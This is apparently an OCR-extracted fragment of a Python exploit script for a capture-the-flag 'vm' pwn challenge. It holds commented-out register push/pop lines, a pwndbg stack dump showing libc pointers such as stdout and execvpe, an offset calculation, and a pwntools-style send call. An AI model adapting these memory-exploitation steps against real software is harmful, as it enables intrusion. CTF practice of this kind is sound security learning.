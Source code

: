 ```python
#     code += push_reg(1) + pop_reg(1-i)
# code += push_reg(-9)
# code += push(0x4004) + pop_reg(-4)# + push_reg(1) 
code += default()
'''
tel rbp-0x20050-0x100 50
00:0000│     0x7ffffffddc30 —▸ 0x7ffffffddc40 ◂— 0x0
01:0008│     0x7ffffffddc38 ◂— 0x444b2c3b4d3b4e00
02:0010│     0x7ffffffddc40 ◂— 0x0
03:0018│     0x7ffffffddc48 —▸ 0x7ffffffede60 ◂— 0x0
04:0020│     0x7ffffffddc50 ◂— 0x100
05:0028│     0x7ffffffddc58 ◂— 0x0
06:0030│     0x7ffffffddc60 ◂— 0xa /* '\n' */
07:0038│     0x7ffffffddc68 ◂— 0x0
08:0040│     0x7ffffffddc70 ◂— 0xd68 /* 'h\r' */
09:0048│     0x7ffffffddc78 ◂— 0xa /* '\n' */
0a:0050│     0x7ffffffddc80 —▸ 0x7ffff7fc16a0 (_IO_2_1_stdout_) ◂— 0xfbad2887
0b:0058│     0x7ffffffddc88 —▸ 0x555555557008 ◂— 'welcome to vmmmmmm world!'
0c:0060│     0x7ffffffddc90 —▸ 0x555555559020 —▸ 0x7ffff7fc16a0 (_IO_2_1_stdout_) ◂— 0xfbad2887
0d:0068│     0x7ffffffddc98 —▸ 0x7ffff7fc24a0 (_IO_file_jumps) ◂— 0x0
0e:0070│     0x7ffffffddca0 ◂— 0x0
0f:0078│     0x7ffffffddca8 —▸ 0x7ffff7e69013 (_IO_file_overflow+275) ◂— cmp    eax, -1
10:0080│     0x7ffffffddcb0 ◂— 0x19
11:0088│     0x7ffffffddcb8 —▸ 0x7ffff7fc16a0 (_IO_2_1_stdout_) ◂— 0xfbad2887
12:0090│     0x7ffffffddcc0 —▸ 0x555555557008 ◂— 'welcome to vmmmmmm world!'
13:0098│     0x7ffffffddcc8 —▸ 0x7ffff7e5c71a (puts+378) ◂— cmp    eax, -1
14:00a0│     0x7ffffffddcd0 —▸ 0x555555555fc0 ◂— endbr64
15:00a8│     0x7ffffffddcd8 —▸ 0x7fffffffdd80 ◂— 0x0
16:00b0│     0x7ffffffddce0 —▸ 0x555555555140 ◂— endbr64
17:00b8│     0x7ffffffddce8 —▸ 0x7fffffffde70 ◂— 0x1
18:00c0│     0x7ffffffddcf0 ◂— 0x0
19:00c8│     0x7ffffffddcf8 —▸ 0x555555555357 ◂— mov    eax, dword ptr [rbp - 0x2007c]
1a:00d0│ rsp 0x7ffffffddd00 ◂— 0x1100000000
1b:00d8│     0x7ffffffddd08 ◂— 0x11
1c:00e0│     0x7ffffffddd10 ◂— 0x3
1d:00e8│     0x7ffffffddd18 —▸ 0x7ffffffedde0 ◂— 0xf
1e:00f0│     0x7ffffffddd20 ◂— 0x444
1f:00f8│     0x7ffffffddd28 ◂— 0x0
20:0100│     0x7ffffffddd30 ◂— 0x0
21:0108│     0x7ffffffddd38 —▸ 0x7ffff7ebbc7e (execvpe+638) ◂— mov    rdx, r12
22:0110│     0x7ffffffddd40 ◂— 0x0
... ↓        3 skipped
26:0130│     0x7ffffffddd60 ◂— 0x111
27:0138│     0x7ffffffddd68 ◂— 0x222
28:0140│     0x7ffffffddd70 ◂— 0x333
29:0148│     0x7ffffffddd78 ◂— 0x444
2a:0150│     0x7ffffffddd80 —▸ 0x7ffff7ebbc7e (execvpe+638) ◂— mov    rdx, r12
2b:0158│     0x7ffffffddd88 ◂— 0x105a22
2c:0160│     0x7ffffffddd90 ◂— 0x0

pwndbg> tel rbp-0x20050 30
00:0000│  0x7ffffffddd30 ◂— 0x0
... ↓     5 skipped
06:0030│  0x7ffffffddd60 ◂— 0x111
07:0038│  0x7ffffffddd68 ◂— 0x222
08:0040│  0x7ffffffddd70 ◂— 0x333
09:0048│  0x7ffffffddd78 ◂— 0x0
0x7ffffffddcb8 —▸ 0x7ffff7fc16a0 (_IO_2_1_stdout_) ◂— 0xfbad2887
pwndbg> p/x (0x7ffffffddd60-0x7ffffffddcb8)/8
$2 = 0x15
'''

sla("welcome to vmmmmmm world!",str(size))
```